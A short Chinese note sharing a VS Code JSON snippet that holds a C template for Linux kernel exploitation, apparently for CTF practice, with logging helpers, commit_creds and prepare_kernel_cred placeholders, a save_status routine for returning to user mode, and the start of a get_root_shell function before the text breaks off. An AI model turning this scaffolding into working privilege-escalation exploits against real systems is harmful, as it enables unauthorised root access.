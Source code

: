 `vscode`中用户`json`代码片段如下：

```json
"kernel":{
    "prefix":"kernel",
    "body":[
        "#define _GNU_SOURCE",
        "#include <stdio.h>",
        "#include <stdlib.h>",
        "#include <string.h>",
        "#include <unistd.h>",
        "#include <fcntl.h>",
        "#include <sys/types.h>",
        "#include <sys/ioctl.h>",
        "#include <stdarg.h>",
        "#include <sys/mman.h>",
        "",
        "void info(const char *format, ...)",
        "{",
        "    va_list args;",
        "    va_start(args, format);",
        "    printf(\"%s\", \"\\033[34m\\033[1m[*] \");",
        "    vprintf(format, args);",
        "    printf(\"%s\", \"\\033[0m\\n\");",
        "}",
        "",
        "void success(const char *format, ...)",
        "{",
        "    va_list args;",
        "    va_start(args, format);",
        "    printf(\"%s\", \"\\033[32m\\033[1m[+] \");",
        "    vprintf(format, args);",
        "    printf(\"%s\", \"\\033[0m\\n\");",
        "}",
        "",
        "void error(const char *format, ...)",
        "{",
        "    va_list args;",
        "    va_start(args, format);",
        "    printf(\"%s\", \"\\033[31m\\033[1m[x] \");",
        "    vprintf(format, args);",
        "    printf(\"%s\", \"\\033[0m\\n\");",
        "}",
        "",
        "size_t commit_creds = 0, prepare_kernel_cred = 0;",
        "",
        "size_t user_cs, user_ss, user_rflags, user_sp;",
        "void save_status()",
        "{",
        "    asm volatile (",
        "        \"mov user_cs, cs;\"",
        "        \"mov user_ss, ss;\"",
        "        \"mov user_sp, rsp;\"",
        "        \"pushf;\"",
        "        \"pop user_rflags;\"",
        "    );",
        "    info(\"Status has been saved.\");",
        "}",
        "",
        "void get_root_shell(void)",
        "{",
        "    if(getuid()) {",
        "        error(\"Failed to get the root!\");",
        "        exit(-1);",
```